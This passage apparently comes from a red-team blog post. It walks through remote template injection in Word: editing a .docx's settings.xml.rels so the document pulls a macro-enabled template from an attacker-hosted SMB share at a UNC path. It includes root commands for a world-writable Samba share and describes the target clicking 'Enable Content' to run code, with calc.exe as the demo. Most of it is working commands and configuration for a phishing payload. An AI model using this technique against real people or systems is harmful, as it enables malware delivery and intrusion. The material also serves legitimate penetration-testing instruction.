 Since Office files are zipped XML files, rename the Office file extension to `.zip`. Unzip the archive and edit `word_rels\settings.xml.rels`&#x20;

The structure of the XML will look something like the following:

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships">
<Relationship Id="rId1" 
	Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate"
	Target="file:///C:\Users\USer\AppData\Roaming\Microsoft\Templates\Template.dotx"
	TargetMode="External"/>
</Relationships>
```

The target will need to be changed to reference a share on the hosted attack infrastructure. If you want to learn more about hosting attack infrastructure, [check out my previous blog post.](https://blog.joeminicucci.com/2021/redira) A UNC path must be supplied, so pick your favorite hosting method. As an example, an SMB or WebDAV share would suffice.&#x20;

On the machine hosting the payloads, run the following to get an SMB share up (you may want to change the privileges!):

```clike
mkdir /root/smbshare
chmod -R 777 /root/smbshare
cat << EOF > /etc/samba/smb.conf
[thebestshareever]
path = /root/smbshare
browseable = yes
read only = no
EOF
systemctl restart nmbd
systemctl restart smbd
```

Next, change the `Target` XML node in the `settings.xml.rels` to the hostname of the payload server.&#x20;

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships">
<Relationship Id="rId1" 
	Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate"
	Target="\\192.168.1.3/FinanceTemplate.dotm"
	TargetMode="External"/>
</Relationships>
```

Re-zip the `.docx` archive, making sure there is no root directory encapsulating the rest of the `.docx` structure. Structural changes to the directory structure of the `.zip` will corrupt the Office file parser and error out.

To test the document, open it in a test sandbox. The prospective subject will be greeted with the Pretext document prepared earlier. After clicking the "**Enable Content**" button to enable macros, the document will switch to the post-processed AutoText snippet, and execute the desired code (in this case `calc.exe`).

